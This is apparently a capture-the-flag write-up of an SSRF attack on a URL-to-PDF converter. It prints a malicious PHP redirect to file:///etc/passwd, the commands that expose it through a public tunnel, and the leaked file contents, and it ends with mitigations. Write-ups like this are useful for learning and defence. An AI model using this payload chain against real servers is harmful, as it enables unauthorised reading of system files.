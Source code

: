 # SSRF Attack (Server-Side Request Forgery)

## Overview

This challenge involved exploiting an **SSRF (Server-Side Request Forgery)** vulnerability to access restricted files on the target server. The target application allowed users to provide a URL, which the server then processed and converted into a PDF format.

---

## Step-by-Step Exploitation

### 1. Initial Observation

- The application accepted a URL as input and displayed the content of the URL in a PDF format.
- This behavior hinted at a potential SSRF vulnerability, as the server was likely making requests to the provided URLs.

---

### 2. Crafting the Exploit

To exploit the SSRF vulnerability, the goal was to trick the server into fetching a sensitive file from its local filesystem. The payload used a crafted URL pointing to a malicious PHP file hosted on my server.

#### Malicious PHP File (`test.php`):

This file instructed the server to redirect to a sensitive file on its own system:

```php
<!DOCTYPE html>
<html lang="en">
<body>

<?php
header('location:file:///etc/passwd');
?>

</body>
</html>
```

- **`file:///etc/passwd`**: Targets the `/etc/passwd` file on the server.
- **Redirection**: Ensures the server fetches and processes the sensitive file.

---

### 3. Hosting the Malicious PHP File

To host the PHP file, I set up a local PHP server and used **NoKey** to expose it publicly.

#### Steps to Host the File:

1. Start a local PHP server:
   
   ```bash
   php -S 0.0.0.0:PORT
   ```

2. Use **NoKey** to expose the server:
   
   ```bash
   ssh -R 80:MY_IP:PORT nokey@localhost.run
   ```

3. The NoKey service provided a public URL, e.g., `https://abc123.localhost.run/test.php`.

---

### 4. Sending the Payload

The payload URL (`https://abc123.localhost.run/test.php`) was sent to the target application. Upon processing, the application:

1. Followed the redirection to `file:///etc/passwd`.
2. Included the contents of `/etc/passwd` in the generated PDF file.

---

## Result

The attack successfully retrieved the `/etc/passwd` file, demonstrating the SSRF vulnerability in the application.

### Sample Output (Extracted from PDF):

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

---

## Lessons Learned

### Key Takeaways

1. **Understanding SSRF**:
   
   - SSRF exploits the trust of a server to make unauthorized requests, potentially accessing sensitive internal resources.

2. **Crafting Malicious Payloads**:
   
   - Used PHP redirection to target local files on the server.

3. **Public Exposure Tools**:
   
   - Leveraged NoKey to expose a local server for testing.

### Mitigation Strategies

1. **Input Validation**:
   
   - Restrict allowed URLs to only trusted domains.

2. **Local Resource Access**:
   
   - Prevent server access to local file paths like `file://`.

3. **Request Filtering**:
   
   - Use allowlists to block internal IP ranges and sensitive paths.

---

## Skills Gained

1. Exploiting SSRF vulnerabilities in web applications.
2. Hosting and exposing local servers using NoKey.
3. Crafting payloads to target local server resources.

